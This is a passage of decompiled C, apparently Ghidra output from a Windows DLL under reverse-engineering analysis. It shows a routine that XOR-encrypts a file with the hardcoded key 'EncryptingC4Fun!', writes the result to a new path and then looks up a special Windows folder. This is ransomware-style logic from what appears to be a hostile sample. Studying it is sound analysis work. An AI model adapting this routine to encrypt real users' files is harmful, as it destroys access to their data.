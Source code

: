 ```
        } while (*pcVar20 != '\0');
        *puVar26 = 0x5c;
        puVar23 = local_e80 + 7;
        do {
          pcVar20 = puVar23 + 1;
          puVar23 = puVar23 + 1;
        } while (*pcVar20 != '\0');
        lVar24 = 0;
        do {
          cVar1 = *(char *)((longlong)_Dst + lVar24);
          puVar23[lVar24] = cVar1;
          lVar24 = lVar24 + 1;
        } while (cVar1 != '\0');
        lVar24 = 0;
        do {
          pcVar20 = local_e78 + lVar24;
          local_b58[lVar24] = *pcVar20;
          lVar24 = lVar24 + 1;
        } while (*pcVar20 != '\0');
        puVar23 = &uStack_b59;
        do {
          pcVar20 = puVar23 + 1;
          puVar23 = puVar23 + 1;
        } while (*pcVar20 != '\0');
        puVar30 = &local_ea8;
        lVar24 = 0;
        do {
          cVar1 = *(char *)((longlong)puVar30 + lVar24);
          puVar23[lVar24] = cVar1;
          lVar24 = lVar24 + 1;
        } while (cVar1 != '\0');
        FUN_180001020(&DAT_180003754,local_b58,puVar30,_Src);
        pFVar27 = (FILE *)&DAT_180003208;
        _File = fopen(local_e78,"rb");
        if (_File == (FILE *)0x0) {
LAB_180001a69:
          FUN_180001020("\nXOR operation failed!",pFVar27,puVar30,_Src);
        }
        else {
          pFVar27 = (FILE *)&DAT_18000320c;
          _File_00 = fopen(local_b58,"wb");
          if (_File_00 == (FILE *)0x0) goto LAB_180001a69;
          lVar24 = 0;
          while( true ) {
            lVar29 = 0;
            if (lVar24 < 0x10) {
              lVar29 = lVar24;
            }
            uVar18 = fgetc(_File);
            lVar24 = lVar29 + 1;
            if (uVar18 == 0xffffffff) break;
            pFVar27 = _File_00;
            fputc((int)"EncryptingC4Fun!"[lVar29] ^ uVar18,_File_00);
          }
          iVar16 = fclose(_File);
          if ((iVar16 != 0) || (iVar16 = fclose(_File_00), iVar16 != 0)) goto LAB_180001a69;
        }
        _DAT_180005628 = _DAT_180005628 + 1;
        _Src = (wchar_t *)0x0;
        SHGetSpecialFolderPathA((HWND)0x0,(LPSTR)((longlong)&uStack_839 + 1),0,0);
        lVar24 = 5;
        puVar30 = (undefined4 *)
```
